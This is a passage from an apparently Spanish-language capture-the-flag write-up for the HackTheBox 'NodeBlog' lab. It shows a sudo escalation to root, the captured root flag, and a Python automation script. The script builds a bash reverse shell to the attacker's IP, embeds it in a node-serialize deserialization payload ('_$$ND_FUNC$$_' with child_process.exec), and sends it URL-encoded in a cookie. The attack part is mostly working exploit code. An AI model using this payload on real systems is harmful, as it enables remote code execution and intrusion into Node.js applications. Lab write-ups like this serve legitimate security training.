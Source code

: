 Si corresponde a su contraseña, podemos ver que podemos utilizar cualquier comando como root, somos sudoes así que estamos listos:
```
admin@nodeblog:~$ sudo bash
root@nodeblog:/home/admin# whoami
root
root@nodeblog:/home/admin# cd /root
root@nodeblog:~# cat root.txt
dacc9bd5f9edbacb1c4fd9b
root@nodeblog:~# 
```

¡Bien!

Hemos ganado acceso como administrador.


Como un extra vamos a realizar la automatización de la intrusión a la máquina.

Vamos a utilizar las siguientes librerías:
```python
import requests,sys,base64
from pwn import *
from os import system
```

Definimos nuestras variables:

```python
Host_ip = sys.argv[1]
Target_ip = 'http://10.10.11.139:5000'
s = requests.Session()
```
Luego, tenemos la siguiente función que se encarga de hacer un url encode completo al string:

```python
def encode_all(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)
```
La siguiente función, es esta:
```python
def unserialize_attack():

    reverse = f'bash -i >& /dev/tcp/{Host_ip}/1234 0>&1'
    reverse_bytes = reverse.encode("ascii")
    base64_bytes = base64.b64encode(reverse_bytes)
    reversebase64 = base64_bytes.decode("ascii")

    payload= encode_all("""{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('echo %s| base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}""" % reversebase64)
    cookie = f'auth ={payload}' 
    headers = {
    "Cookie": cookie
    }   
    r = s.get(Target_ip,headers=headers)
```
La cual pasa a base64 la **reverse shell** y lo agrega al **payload**, el cual pasa a url enconde. Toda la data se envía en el header en la petición get.
